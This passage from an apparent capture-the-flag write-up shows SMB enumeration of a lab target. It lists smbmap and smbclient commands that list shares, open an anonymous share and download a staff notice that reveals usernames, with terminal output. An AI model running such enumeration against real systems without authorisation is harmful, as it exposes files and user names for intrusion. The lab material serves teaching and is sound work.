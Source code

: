 #
> Scanning the Target's SMB server
9. `smbmap -L //{TARGET IP}` to enumerate and list the available shares on the target's SMB server, which revealed to us a sharename
10. `smbclient //{TARGET IP}/{SHARENAME1} -c "ls"` to execute the **ls** command in the sharename that we previously found, which revealed a text file
11. `smbclient //{TARGET IP/{SHARENAME1} -c "get {FILE3}.txt"` to execute the **get** command in the sharename that we previously found onto our local attack machine
12. `cat {FILE3}.txt` to list the contents of the text file we retrieved from the target's SMB server onto our terminal, which turned out to be an announcement message containing the name of another one of the target's users
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.10.254.39               
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.254.39/Anonymous -c "ls"
Password for [WORKGROUP\kali]:
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11094332 blocks available
```
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.254.39/Anonymous -c "get staff.txt"
Password for [WORKGROUP\kali]:
getting file \staff.txt of size 173 as staff.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```
```bash
┌──(kali㉿kali)-[~]
└─$ cat staff.txt              
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
